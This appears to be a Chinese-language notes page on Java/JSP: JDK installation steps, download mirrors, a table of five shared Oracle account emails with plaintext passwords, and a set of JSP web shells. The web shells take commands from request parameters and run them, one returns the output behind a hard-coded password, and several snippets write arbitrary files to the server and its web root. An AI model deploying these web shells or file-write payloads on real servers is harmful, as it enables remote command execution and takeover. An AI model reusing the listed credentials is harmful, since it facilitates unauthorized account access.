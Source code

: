 # Java/JSP

### 自动化安装脚本
```
curl -o jdk-18_windows-x64_bin.exe  https://d6.injdk.cn/oraclejdk/18/jdk-18_windows-x64_bin.exe
jdk-18_windows-x64_bin.exe /s
# 静默安装完成，需要重新打开一个 CMD 窗口。
java -version 
echo %PATH%
echo %JAVA_HOME%
# 参考 Java 18 Silent Install https://silentinstallhq.com/java-18-silent-install-how-to-guide/
```

### Windows 手动安装 JDK（主要提升Win安装效率）
```
http://www.codebaoku.com/jdk/jdk-install-windows.html
1. 下载完成后双击jdk-8u271-windows-x64.exe文件。
2. 环境变量的配置 JAVA_HOME CLASSPATH PATH
```

## Linux 安装JDK （首先使用 apt yum方式）
```
http://www.codebaoku.com/jdk/jdk-install-linux.html
mkdir /usr/java/
tar -zxvf jdk-8u171-Linux-x64.tar.gz -C /usr/java/
#//环境变量在将会在 /etc/profile 文件中配置，为了防止配置错误，建议先将改文件负责进行备份。
#//备份 /etc/profile 文件
cp /etc/profile /etc/profile.bak
#//编辑 profile 文件，输入 vi /etc/prifle ，然后定位到这个文件的最后面。再按住字母 o ，开启编辑模式。
#//复制下面的内容粘贴到vi编辑器（注意 JAVA_HOME 这个路径，应该写成你刚刚解压的目录）。
export JAVA_HOME=/usr/local/java/jdk1.8.0_171
export JRE_HOME=${JAVA_HOME}/jre
export CLASSPATH=.:${JAVA_HOME}/lib:${JRE_HOME}/lib
export PATH=${JAVA_HOME}/bin:$PATH
#//让 /etc/profile 文件生效，
source /etc/profile    
#//检查是否配置成功，如果现实了版本信息，那么则证明配置成功。
javac -version
```

###  Java 下载地址
```
（0）http://www.codebaoku.com/jdk/jdk-index.html
（1）TUNA镜像 https://mirrors.tuna.tsinghua.edu.cn/AdoptOpenJDK/
（2）HUAWEI镜像 https://repo.huaweicloud.com/java/jdk/
（3）injdk https://www.injdk.cn/
```

### Oracle 共享账号 用于JDK下载
```
http://www.codebaoku.com/jdk/jdk-oracle-account.html

账号	密码
bnptrhinldfoguijh@mytrashmailer.com	#&qRfvE7rg37GhjEfDJy
sosen65433@kahase.com	SuckMyDick123!@#
erfede@yopmail.com	Bellapete!1
mqkpexeozyceyccghg@nthrl.com	weLgKcEdnc8PGua/
ttauern@trash-mail.com	nhXpiFpk3KztJ43
```

### 一、无回显的命令执行（命令执行后不会在前端页面返回数据）


```
<%Runtime.getRuntime().exec(request.getParameter("i"));%>

请求url：http://127.0.0.1/shell.jsp?i=whoami
```


### 二、有回显带密码的命令执行（命令执行后会在前端返回数据）

```
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```



### 三、文件写入（改写目标服务器里的文件,若文件不存在则创建）

```markdown
1. ISO-8859-1输入:
new java.io.FileOutputStream(request.getParameter("file")).write(request.getParameter("content").getBytes());
请求url：http://127.0.0.1/input.jsp?file=root/test.txt&content=test

2. UTF-8输入:
new java.io.FileOutputStream(request.getParameter("file")).write(new String(request.getParameter("content").getBytes("ISO-8859-1"), "UTF-8").getBytes());
请求url：http://127.0.0.1/input.jsp?file=root/test.txt&content=test

3. Web目录写入;
new java.io.FileOutputStream(application.getRealPath("/") + "/" + request.getParameter("filename")).write(request.getParameter("content").getBytes());
请求url：http://127.0.0.1/input.jsp?file=test.txt&content=test
```


### 四、编码相关

Runtime-exec 编码原理 https://www.jianshu.com/p/ae3922db1f70

Runtime-exec 编码工具 https://www.bugku.net/runtime-exec-payloads/

Java在线运行环境 https://www.w3cschool.cn/tryrun/runcode?lang=java-openjdk
